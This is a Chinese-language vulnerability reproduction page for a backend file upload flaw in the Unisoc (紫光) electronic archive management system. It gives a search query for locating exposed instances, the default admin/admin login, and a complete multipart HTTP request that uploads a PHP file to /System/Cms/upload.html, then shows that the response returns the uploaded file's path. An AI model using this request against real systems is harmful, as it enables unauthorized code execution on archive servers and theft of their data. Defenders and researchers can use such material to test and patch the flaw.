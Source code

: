 # 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20230314084520184](images/image-20230314084520184.png)

使用默认口令登录后台 admin/admin, 发送请求包

![image-20230314084534337](images/image-20230314084534337.png)

```
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![image-20230314084553654](images/image-20230314084553654.png)

回显路径即为上传成功的文件路径

![image-20230314084608438](images/image-20230314084608438.png)